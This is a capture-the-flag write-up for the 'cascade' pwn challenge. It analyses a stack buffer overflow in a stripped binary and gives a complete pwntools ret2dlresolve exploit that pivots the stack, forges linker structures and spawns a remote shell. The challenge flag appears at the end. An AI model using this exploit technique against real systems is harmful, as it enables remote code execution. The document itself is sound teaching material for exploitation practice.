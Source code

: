 # cascade
**Category:** Pwn
**Difficulty:** Medium
**Author:** c-bass

## Description

just a buffer overflow, right?

## Distribution

- `cascade.zip`

## Solution

### 1 Analyze the problem
We are given a stripped 64-bit ELF binary.
After using ghidra to analyze, looking at main, we see it just disables stdio buffering and then calls vuln():
```cpp
int main(void) {
    FUN_00401060(stdout,0,2,0);
    FUN_00401060(stdin,0,2,0);
    vuln();
    return 0;
}

void vuln(void) {
    char local_48[64];
    read(0, local_48, 0x200);   // classic overflow
}

```
### So the vulnerability is obvious: a stack buffer overflow that allows full ROP.

### 2 Analysis in Ghidra
- setvbuf is imported (visible in PLT/GOT).

- The vuln function allows us to overwrite return addresses.

- There is no system@plt, so we can’t call it directly.

- However, because setvbuf is a dynamically linked function, we can abuse the dynamic linker to resolve system at runtime.

This is the textbook setup for a ret2dlresolve attack.
### 3 Exploit Strategy
1. Overflow the stack to pivot execution into writable memory (.bss) so we can store a long fake frame.

2. Use pwntools’ Ret2dlresolvePayload to craft fake relocation/symbol/string entries for system.

3. Trigger the dynamic linker via the existing setvbuf@plt stub.

4. Place "sh" in memory to use as the argument.

5. When the resolver runs, it resolves system from libc and executes system("sh").

### 4 Exploit Code
```python
from pwn import *

context.binary = elf = ELF("./vuln")
conn = remote("cascade.chal.imaginaryctf.org", 1337)

# Build the ret2dlresolve payload for 'system("sh")'
dlresolve = Ret2dlresolvePayload(
    elf,
    symbol='system',
    args=[],
    data_addr=0x404070,
    resolution_addr=elf.got.setvbuf
)

# Stage 1: pivot stack into .bss
conn.sendline(
    (b"A"*64 + p64(elf.sym.stdout + 0x40) + p64(0x401162)).ljust(0x200-1, b'\0')
)

# Stage 2: write fake dlresolve structures + "sh"
rop = ROP(elf)
rop.ret2dlresolve(dlresolve)
rop.raw(rop.ret)
rop.main()

conn.sendline(
    (p64(elf.sym.stdout + 8) + b"sh\0\0\0\0\0\0" +
     b"A"*0x30 + p64(0x404f40) + p64(0x401162) +
     dlresolve.payload).ljust(0x200-1, b'\0')
)

# Stage 3: final chain that calls system("sh")
conn.sendline(
    (b"A"*0x48 + rop.chain() + dlresolve.payload).ljust(0x200-1, b'\0')
)

conn.interactive()


```

### 5 Final ouput
Running the exploit connects to the challenge service and returns a shell.
From there, reading the flag is straightforward:
```
$ cat flag.txt
ictf{i_h0pe_y0u_didnt_use_ret2dl_94b51175}

```

### Ouput: ictf{i_h0pe_y0u_didnt_use_ret2dl_94b51175}


